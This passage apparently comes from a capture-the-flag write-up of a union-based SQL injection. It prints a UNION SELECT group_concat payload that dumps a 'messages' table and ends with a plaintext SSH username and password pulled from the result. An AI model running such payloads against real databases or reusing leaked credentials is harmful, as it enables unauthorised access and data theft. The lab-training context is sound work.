

### Note: We've also added ,':', to split the username and password from each other. Instead of being separated by a comma, we've chosen the HTML <br> tag that forces each result to be on a separate line to make for easier reading.

--> We have the password hashed but we are not able to de hash it so we will move to another table to find information.

+ We've moved to table_name "messages": 

```bash
5 UNION SELECT group_concat(id, ':' , is_read, ':' , message_content, ':' , user_from, ':' , user_to '<br>'),2,3,4 FROM messages
```


--> We have the credential SSH jake:@b_ENXkGYUCAv3zJ.


